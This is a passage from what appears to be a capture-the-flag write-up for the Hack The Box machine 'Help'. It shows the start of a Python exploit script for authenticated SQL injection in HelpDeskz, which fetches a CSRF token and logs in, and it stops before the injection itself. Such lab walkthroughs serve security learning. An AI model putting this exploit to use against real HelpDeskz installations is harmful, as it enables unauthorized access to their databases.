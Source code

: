 ```py
    
    rhost = args.target
    username = args.username

    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

As the first PoC we got the version() of the mysql

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2008:56:48.png)

sqli.py

```py
#!/usr/bin/python3
# Reference: https://www.exploit-db.com/exploits/41200
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Help
# HelpDeskz SQLInjection Authenticated

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Let's get the csrf token
def getCSRFToken(rhost):
	# Make csrfMagicToken global
	global csrf_token
	# Make the request to get csrf token
	csrf_page = r.get(login_url, verify=False, proxies=proxies)
	# Get the index of the page, search for csrfMagicToken in it
	index = csrf_page.text.find("csrfhash")
	# Get only the csrfMagicToken in it
	csrf_token = csrf_page.text[index:index+128].split('"')[2]
	if csrf_token:
		print("[+] We get the CSRF Token to login! [+]")
		return csrf_token
	else:
		print("[+] Cannot get the CSRF_TOKEN [+]")
		exit

# Let's log in on the app
def login(csrf_token,username,password):
	data = {"do": "login", "csrfhash": "%s" %csrf_token, "email": "%s" %username, "password": "%s" %password, "btn": "Login"}
	login = r.post(login_url, cookies=r.cookies, data=data, proxies=proxies)
	if "Invalid email address or password" in login.text:
		print("[+] Invalid email address or password!! [+]")
	else:
		print("[+] Login successsss!!! [+]")

# Now, let's get a ticket id
def getTicketID(rhost):
	# Make id_ticket global
```